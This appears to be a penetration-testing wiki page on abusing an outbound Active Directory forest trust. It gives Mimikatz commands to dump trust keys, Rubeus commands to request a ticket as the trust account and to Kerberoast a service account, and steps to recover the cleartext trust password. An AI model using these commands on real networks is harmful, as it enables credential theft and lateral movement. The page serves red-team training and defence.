 # External Forest Domain - One-Way (Outbound)


In this scenario **your domain** is **trusting** some **privileges** to principal from a **different domains**.

## Enumeration

### Outbound Trust

```bash
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
```
## Trust Account Attack

A security vulnerability exists when a trust relationship is established between two domains, identified here as domain **A** and domain **B**, where domain **B** extends its trust to domain **A**. In this setup, a special account is created in domain **A** for domain **B**, which plays a crucial role in the authentication process between the two domains. This account, associated with domain **B**, is utilized for encrypting tickets for accessing services across the domains.

The critical aspect to understand here is that the password and hash of this special account can be extracted from a Domain Controller in domain **A** using a command line tool. The command to perform this action is:

```bash
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
```
This extraction is possible because the account, identified with a **$** after its name, is active and belongs to the "Domain Users" group of domain **A**, thereby inheriting permissions associated with this group. This allows individuals to authenticate against domain **A** using the credentials of this account.

**Warning:** It is feasible to leverage this situation to gain a foothold in domain **A** as a user, albeit with limited permissions. However, this access is sufficient to perform enumeration on domain **A**.

In a scenario where `ext.local` is the trusting domain and `root.local` is the trusted domain, a user account named `EXT$` would be created within `root.local`. Through specific tools, it is possible to dump the Kerberos trust keys, revealing the credentials of `EXT$` in `root.local`. The command to achieve this is:

```bash
lsadump::trust /patch
```
```
Following this, one could use the extracted RC4 key to authenticate as `root.local\EXT$` within `root.local` using another tool command:

```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
```
This authentication step opens up the possibility to enumerate and even exploit services within `root.local`, such as performing a Kerberoast attack to extract service account credentials using:

```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
```
### Gathering cleartext trust password

In the previous flow it was used the trust hash instead of the **clear text password** (that was also **dumped by mimikatz**).

The cleartext password can be obtained by converting the \[ CLEAR ] output from mimikatz from hexadecimal and removing null bytes ‘\x00’:

![[<../../images/image (938).png>|]]

Sometimes when creating a trust relationship, a password must be typed in by the user for the trust. In this demonstration, the key is the original trust password and therefore human readable. As the key cycles (30 days), the cleartext will not be human-readable but technically still usable.

The cleartext password can be used to perform regular authentication as the trust account, an alternative to requesting a TGT using the Kerberos secret key of the trust account. Here, querying root.local from ext.local for members of Domain Admins:

![[<../../images/image (792).png>|]]

## References

- [[https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted|https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted]]



